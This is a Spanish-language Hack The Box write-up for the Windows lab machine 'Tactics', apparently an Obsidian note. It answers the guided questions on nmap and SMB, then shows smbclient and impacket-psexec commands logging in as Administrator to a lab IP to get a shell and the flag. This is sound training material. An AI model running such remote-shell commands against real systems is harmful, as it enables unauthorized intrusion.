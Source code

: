```yaml
---
title: Writeup tactics - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - tactics
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina tactics en Hack The Box.
keywords:
  - writeup tactics
  - hack the box tactics
  - resolución máquina tactics
  - tactics hack the box
  - htb tactics
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+1/Windows/Tactics)
- 📺 **Resolución en vivo (completa)**: [Link]([Link](https://www.youtube.com/watch?v=6jHO8sHxz2E))
- 🧠 **Explicación resumida**: 

-------

#easy #windows #nmap #ping #impacket #smb

-------
# Guided Mode

1)¿Qué switch de Nmap podemos utilizar para enumerar máquinas cuando nuestros paquetes ICMP de ping son bloqueados por el cortafuegos de Windows?
	-Pn

2)¿Qué significa la sigla de 3 letras SMB?
	server message block

3)¿En qué puerto funciona SMB?
	445

4)¿Qué argumento de línea de comandos le das a `smbclient` para listar los recursos compartidos disponibles?
	-L

5)¿Qué carácter al final del nombre de una acción indica que se trata de una acción administrativa?
	$

6)¿Qué recurso compartido administrativo es accesible en la caja que permite a los usuarios ver todo el sistema de archivos?
	C$

7)¿Qué comando podemos utilizar para descargar los archivos que encontramos en el recurso compartido SMB?
	get

8)¿Qué herramienta de la colección Impacket puede utilizarse para obtener un shell interactivo en el sistema?
	psexec.py

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

![[Tactics1.png]]

![[Tactics2.png]]

![[Tactics3.png]]

![[Tactics4.png]]
*TTL:* Maquina Windows
*Puertos*
	`445` [[smb]]

--------
# Intrusion a la maquina con [[impacket-psexec]]

```
smb client -L 10.129.139.81 -p 445 -U Administrator
```
Intentamos conectarnos con smb, pero nos termina rechazando la conexion asi que pasamos a intentar con [[impacket-psexec]]
![[Tactics5.png]]

```shell
impacket-psexec Administrator@10.129.139.81 -port 445
```


![[Tactics7.png]]

Una vez dentro ya podemos visualizar la flag

![[Tactics6.png]]

------
# Notas
En los OS windows el usuario con mas privilegios es Administrator y en linux root

-----
# Creditos
Writeup oficial HackTheBox